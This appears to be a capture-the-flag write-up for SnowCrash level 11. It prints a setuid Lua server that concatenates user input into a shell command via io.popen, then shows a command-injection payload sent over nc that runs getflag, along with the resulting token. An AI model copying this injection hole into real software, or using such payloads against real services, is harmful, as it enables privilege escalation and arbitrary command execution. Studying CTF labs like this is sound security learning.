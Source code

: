 # Level 11

## Vulnerability
Priviledge escalation via code injection

## Context
```
level11@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

## Solution
Let's ```cat``` the file and see what we find. 
```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).<br/>
It will prompt for a password and pass anything we write to a hashing function.<br/>
Let's see if we can exploit that, by tricking it to run ```getflag``` in the place of the password. <br/>

We'll use ```nc``` to establish a TCP connection with remote server. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
